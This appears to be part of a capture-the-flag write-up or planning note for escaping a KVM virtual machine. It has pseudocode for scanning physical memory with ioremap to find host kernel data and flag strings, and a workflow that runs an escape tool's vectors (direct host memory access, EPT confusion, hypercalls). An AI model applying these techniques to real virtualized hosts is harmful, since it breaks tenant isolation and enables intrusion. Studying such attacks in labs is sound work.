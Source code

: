 **Strategy:**
```
For addr in 0x00000000 to 0xFFFFFFFF (4GB), step 16MB:
    Try ioremap(addr, 4KB)
    If accessible:
        Read content
        Check for kernel patterns:
            - Magic numbers
            - ASCII strings
            - Pointer patterns
            - Known structures
        If looks like host kernel:
            Map more memory around this region
            Search for flag strings
```

**Optimizations:**
- Skip known guest RAM regions
- Focus on likely MMIO holes
- Use kernel patterns to identify host memory

**Likelihood:** Low (time-consuming)
**Why try:** Last resort, might find unexpected mappings

---

## Exploitation Workflow

### Phase 1: Reconnaissance
```bash
# Build and load
./build.sh

# Check guest memory layout
cat /proc/iomem

# Get kernel info  
uname -a
cat /proc/cpuinfo
```

### Phase 2: Quick Wins (Fast Vectors)
```bash
# Try direct access first
./kvm_escape_advanced 1  # Vector 1: Direct HPA

# Try EPT confusion
./kvm_escape_advanced 5  # Vector 5: EPT tricks

# Try hypercalls
./kvm_escape_advanced 3  # Vector 3: Hypercalls
```
